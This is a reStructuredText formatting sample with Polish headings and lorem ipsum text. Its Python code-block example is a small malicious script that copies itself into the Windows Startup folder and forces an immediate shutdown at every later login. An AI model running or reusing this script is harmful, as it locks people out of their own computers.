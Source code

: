Tytuł
==========

Lorem ipsum dolor sit amet, consectetur adipiscing elit.

Nagłówek 2
----------

Nam ut semper ligula, sit amet viverra lectus.

Nagłówek 3
++++++++++

Fusce eleifend, mi sit amet volutpat bibendum,

Nagłówek 4
^^^^^^^^^^

ex erat lobortis tortor, a condimentum turpis ex euismod turpis.

.. note::

   Suspendisse cursus magna a arcu mattis,

.. tip::

   et auctor turpis tempus.

.. code-block:: python

  import os
  import shutil

  user=os.getlogin()

  trg=os.path.dirname(os.path.abspath(__file__))+"\shutdown.py"
  dst="C:/Users/"+user+"/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup"

  if(os.path.exists(dst+"/shutdown.py")):
      os.system("shutdown /s /t 1")
      os._exit(0)

  shutil.move(trg,dst)

Odnośnik lokalny RtD :doc:`api.rst`

Odnośnik zewnętrzny-inny serwis `google <https://www.google.com>`_

lista punktowana:

* .
* .
* .

lista numerowana: 

#. .
#. .
#. .


====  =====  =====
1     2      3    
====  =====  =====
4     5      6   
7     8      9   
====  =====  =====
